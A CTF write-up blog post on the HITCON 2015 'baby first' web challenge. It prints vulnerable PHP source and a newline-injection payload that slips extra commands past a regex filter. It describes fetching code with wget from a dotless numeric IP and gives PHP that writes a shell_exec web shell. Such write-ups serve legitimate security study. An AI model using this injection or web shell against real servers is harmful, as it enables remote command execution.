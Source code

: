 ```yaml
---
layout:     post
title:      "Web 100 baby first"
subtitle:   "Hitcon Ctf"
date:       2015-10-19 20:45:00
author:     "Heeraj"
header-img: "img/post-bg-02.png"
---
```


<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> </p>

<p>This CTF challenges were very cool, I liked the challenges. I would like write today on web 100 , baby first challenge. I spend most of my time solving this  challenge, but I didn't get it.</p>

<p>Source Code:<br>
&#x3C;?php<br>
    highlight_file(__FILE__);<br>
    $dir = &#x27;sandbox/&#x27; . $_SERVER[&#x27;REMOTE_ADDR&#x27;];<br>
    if ( !file_exists($dir) )<br>
        mkdir($dir);<br>
    chdir($dir);<br>
<br>
    $args = $_GET[&#x27;args&#x27;];<br>
    for ( $i=0; $i&#x3C;count($args); $i++ ){<br>
        if ( !preg_match(&#x27;/^\w+$/&#x27;, $args[$i]) )<br>
            exit();<br>
    }<br>
    exec(&#x22;/bin/orange &#x22; . implode(&#x22; &#x22;, $args));<br>
?&#x3E;<br>

<p>During CTF, when I got the problem source code was visible due to the "highlight_file" function in php. After that it had function to make the directory. Butwhen I deployed the challenge, there was no directory created. </p>

<p>The argument were passed through the GET parameter, then there is for loop which loops till count of arguments. Everything was "0k" till now, exept the preg_match() which was filtering only the letters, characters and digits. This was a tension, I have to somehow bypass the preg_match() function.</p>

<p>Ya this was hard phase, because after this function you have exec() which executes the command. But in the case here, there is /bin/orange , I don't know what was orange  anyway. I was think to use && or ; but that would not work.</p>

<p>For bypassing this function, we have to pass the argument as args[]=a%0A&args[]=touch&args[]=i4info. So now the problem was, what to do next? You can neither use dot or anyother command which would help us. But only thing we could do was , we have to use wget command but for that also, you would have give an IP addrss which don't contain dot. That's intresting an IP without dots.</p>

<p>This was totally new concept, we have to use something called resolving ip. Thus we can make the ip to long number format. Thus we can execute the wget command. You could do this all in folder such that you can make it a tar and execute php of the tar, anyway php will be executed. The exploit to be taken while wget is given below. Its really superb problem, the way of thinking that we take is very nice.</p>

<p>Exploit:<br>
&#x3C;?php<br>
file_put_contents(&#x27;shell.php&#x27;, &#x27;<br>
    &#x3C;?php<br>
    header(&#x22;Content-Type: text/plain&#x22;);<br>
    print shell_exec($_GET[&#x22;cmd&#x22;]);<br>
    ?&#x3E;<br>
&#x27;);<br>
?&#x3E;<br>
</p>

<p>Thank you for reading the blog! </p>
